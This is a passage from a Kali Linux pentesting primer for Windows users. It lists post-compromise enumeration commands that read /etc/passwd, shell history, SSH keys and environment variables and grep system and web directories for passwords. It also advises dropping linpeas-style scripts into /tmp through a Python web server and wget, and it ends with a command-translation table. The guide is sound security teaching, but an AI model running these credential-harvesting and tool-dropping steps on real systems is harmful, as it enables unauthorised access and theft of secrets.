cat /etc/passwd                        # users (hashes are NOT here; /etc/shadow is root-only)
crontab -l; cat /etc/crontab; ls -la /etc/cron.*   # hijackable scheduled jobs
systemctl list-timers --all            # ...and don't forget systemd timers
ss -tulpn                              # listening services, incl. loopback-only (tunnel targets)
ps aux                                 # what's running, and as whom

# --- secrets lying around ---
env                                    # creds in the environment
cat ~/.bash_history 2>/dev/null        # typed creds, hostnames, mount points
ls -la ~/.ssh/ 2>/dev/null             # private keys / authorized_keys for lateral movement
grep -rin password /etc /var/www /home 2>/dev/null   # config-file creds (wp-config.php, .env, database.yml)
```

> **🪟 From Windows**
>
> This is your `whoami /all` / `systeminfo` / `net user` / `tasklist` / `netstat -anob` / `schtasks` sweep, translated. **The mindset shift:** on a standalone Linux box there is no Active Directory to enumerate, so you pivot from "what domain rights do I have" to "what *local misconfiguration* (SUID, sudo rule, writable cron, weak perms, kernel CVE) makes me root". `sudo -l` and the SUID sweep have no real Windows equivalent and are where you look first.

> **🎯 Pentest angle**
>
> Automated scripts (`linpeas`, `LinEnum`, `linux-exploit-suggester`, `pspy`) bundle all of this — drop them via `python3 -m http.server` + `wget` into `/tmp` or `/dev/shm` (world-writable). But run the manual commands when you can't drop a script. Feed `sudo -l` output and SUID binaries to **GTFOBins**, and `uname -r` to `linux-exploit-suggester`.

---

## Appendix the pocket card

The highest-frequency equivalences, for when you just need the translation.

| You want to… | Windows | Linux (Kali) |
|---|---|---|
| Elevate / become root | Run as admin / `runas` | `sudo cmd` / `sudo -i` |
| Who am I + privileges | `whoami /all` | `id` ; `sudo -l` |
| List / find / grep files | `dir` / `dir /s /b` / `findstr /s` | `ls -la` / `find / -name x 2>/dev/null` / `grep -rin x .` |
| Make runnable + run here | (just run the `.exe`) | `chmod +x ./x && ./x` |
| Copy / move / delete | `copy` / `move` / `del` | `cp` / `mv` / `rm` (no undo!) |
| Install / update tools | `winget install` / Windows Update | `sudo apt install x` / `sudo apt update && sudo apt full-upgrade` |
| Processes / kill | `tasklist` / `taskkill /F` | `ps aux` / `kill -9` |
| Services | `services.msc` / `sc` | `systemctl status\|start\|enable x` |
| Keep a job alive after disconnect | — | `tmux` (detach `Ctrl-b d`) |
| My IP / ports / routes | `ipconfig /all` / `netstat -ano` / `route print` | `ip a` / `ss -tulpn` / `ip r` |
| DNS lookup | `nslookup` | `dig +short` |
| Remote shell / copy | `mstsc` / `copy \\host\share` | `ssh user@host` / `scp f user@host:/tmp/` |
| Serve / pull a file | IIS / SMB | `python3 -m http.server 8000` / `wget URL` |
| Edit a text file (no GUI) | `notepad` | `nano file` (or `vim`: `i`, `Esc`, `:wq`) |
| Env var (session / persist) | `set X=v` / `setx X v` | `export X=v` / add to `~/.bashrc` |
| Logs / scheduled jobs | Event Viewer / `schtasks` | `journalctl` + `/var/log/*` / `crontab -e` + `systemctl list-timers` |
| Help | `cmd /?` | `man cmd` / `cmd --help` |

> **💡 Three habits that make the rest easy**
>
> 1. Press **`Tab`** after everything. 2. Append **`2>/dev/null`** to `find`/`grep` sweeps. 3. Run long work inside **`tmux`**. Do those three and Kali stops fighting you.

---

